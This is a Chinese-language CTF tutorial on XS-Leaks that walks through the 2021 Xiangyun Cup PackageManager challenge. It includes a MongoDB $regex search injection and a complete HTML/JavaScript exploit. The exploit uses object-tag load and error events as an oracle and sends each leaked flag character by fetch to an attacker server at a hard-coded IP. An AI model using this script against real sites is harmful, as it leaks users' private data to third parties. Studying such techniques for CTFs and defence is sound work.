


XSleaks¶
什么是 XS-Leaks¶
XS-Leaks 全称 Cross-site leaks，可以用来 探测用户敏感信息。利用方式、利用条件等都和 csrf 较为相似。
说到探测用户敏感信息，是如何进行探测的？和csrf 相似在哪？
设想网站存在一个模糊查找功能（若前缀匹配则返回对应结果）例如 http://localhost/search?query=，页面是存在 xss 漏洞，并且有一个类似 flag 的字符串，并且只有不同用户查询的结果集不同。这时你可能会尝试 csrf，但是由于网站正确配置了 CORS，导致无法通过 xss 结合 csrf 获取到具体的响应。这个时候就可以尝试 XS-Leaks。
虽然无法获取响应的内容，但是是否查找成功可以通过一些侧信道来判断。通过哪些侧信道判断呢？
这些侧信道的来源通常有以下几类：
- 浏览器的 api (e.g. Frame Counting and Timing Attacks)
- 浏览器的实现细节和bugs (e.g. Connection Pooling and typeMustMatch)
- 硬件bugs (e.g. Speculative Execution Attacks 4)
利用条件¶
具有模糊查找功能，可以构成二元结果（成功或失败），并且二元之间的差异性可以通过某种侧信道技术探测到。
可以和 csrf POST 型一样触发，需要诱使受害者触发执行 js 代码。所以特定功能数据包必须没有类似 csrf token 的保护等。
配合学习¶
强烈推荐祥云杯web_PackageManager2021，在BUUCTF上已有复现，典型的xsLeaks题目，关于xsleaks的部分wp
利用packages/list/?search的功能，发现虽然可以实现search的功能，但是并不能按照内容正则匹配搜出来

这里search参数可以是对象。而对于后端mongodb来说，我们是能利用{$regex: 'xxx'}这样的查询进行正则搜索的。故访问 packages/list?search[description][$regex]=^f就可以进行正则查询desscription了。这样就符合xsleak的思路了。
而具体leak的方法。我们使用object标签。它能在火狐环境下做到，如果object.data访问状态码200，就会触发onload事件。如果访问状态码404，就会触发onerror事件。我们根据这个差异性，就能利用search注出flag内容了。
后面是自己VPS搭建一个接收
<html> <script> const VPS_IP = 'http://120.27.246.202/' const chars = "0123456789abcdefghijklmnopqrstuvwxyz-{}"; const escape = (c) => { return c.replace(/[.*+?^=!:${}()|[\]\/\\]/g, '\\$&'); } const oracle = async (url) => { return new Promise((resolve, reject) => { const object = document.createElement("object"); object.data = url; object.onload = resolve; object.onerror = reject; document.head.appendChild(object); }); } const search = async (url) => { try { await oracle(url) return true; } catch (e) { return false; } } (async () => { let flag = ''; let url = `http://localhost:8000/packages/list?search[description][$regex]=^${flag}` while (flag.charAt(flag.length - 1) !== "}") { for ( let i of chars ) { if ( await(search(url + escape(i))) ) { url = url + escape(i) flag += i await fetch(`${VPS_IP}/?flag=${flag}`, {mode: 'no-cors'}) break; } else { console.log('failed'); } } } })(); </script> <img src="https://deelay.me/10000/http://example.com"/> </html

可以看看最后的效果